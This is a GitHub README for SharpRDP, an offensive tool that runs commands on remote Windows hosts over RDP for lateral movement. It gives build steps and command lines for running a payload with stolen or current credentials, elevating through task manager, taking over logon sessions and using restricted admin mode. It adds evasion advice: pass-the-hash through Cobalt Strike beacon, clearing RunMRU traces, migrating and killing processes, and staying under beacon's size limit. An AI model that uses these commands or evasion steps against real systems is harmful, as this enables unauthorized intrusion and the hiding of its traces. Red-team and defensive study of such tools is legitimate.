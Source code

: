 

### SharpRDP - Remote Desktop Protocol Console Application for Authenticated Command Execution

#### Building
To compile open the project in Visual Studio and build for release. Two DLLs will be output to the Release directory, you do not need those because the DLLs are in the assembly.
If you do not want to use the provided DLLs you will need to .NET SDK to create the AxMSTSCLib.dll DLL. To create it you'll need to run aximp from the SDK on mstscax.dll. `%<SDK dir>%\aximp.exe %windir%\system32\mstscax.dll`. Those DLLs will need to be referenced by the project to get the Interop DLLs created.
You will also need to compress the DLLs with Deflate and name them AxInterop.MSTSCLib.dll.bin and Interop.MSTSCLib.dll.bin


#### Usage
```
Regular RDP connection and execution
  SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
```

```
# Note tha this method need to use WMI and therefore connection to port 135 must be allowed
Use WMI to retrieve the remote keyboard layout
	SharpRDP.exe wmi=true [other options]
```

```
Exec program as child process of cmd or powershell
  SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password exec=cmd
```

```
Use restricted admin mode
  SharpRDP.exe computername=target.domain command="C:\Temp\file.exe"
```

```
Connect first host drives
  SharpRDP.exe computername=domain.target command="\\tsclient\C\Temp\file.exe" username=domain\user password=password connectdrive=true
```

```
Execute command elevated through Run Dialog - CURRENTLY BUGGED
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe" username=domain\user password=password elevated=winr
```

```
Execute command elevated through task manager
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password elevated=taskmgr
```

```
Add Network Level Authentication
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password nla=true
```

```
Ask to take over logon session
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password takeover=true
```

If restricted admin mode is enabled on the target do not specify any credentials and it will use the current user context. Can `PTH` or `make_token` in beacon or `runas /netonly` on a Windows system.

All execution starts with the Windows run dialog (Win+R). There will be a registry key created at `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` with the command that you executed. If you want to remove this you can use: [CleanRunMRU: Get or clear RunMRU values](https://github.com/0xthirteen/CleanRunMRU)

Keep in mind if you execute a program like msbuild (I'm sure there are others) a cmd window will pop up while the process is running. If you do it would probably be best to migrate the process and kill the original. 

The required DLLs are compiled into the assembly and app domain assembly resolve event is used. Because of the size of the DLLs they are compressed and decompressed at runtime (so they could meet beacon's 1MB size limit).

Blog about it found here [SharpRDP](https://0xthirteen.com/2020/01/21/revisiting-remote-desktop-lateral-movement/)

Also part of [MoveKit](https://github.com/0xthirteen/MoveKit)
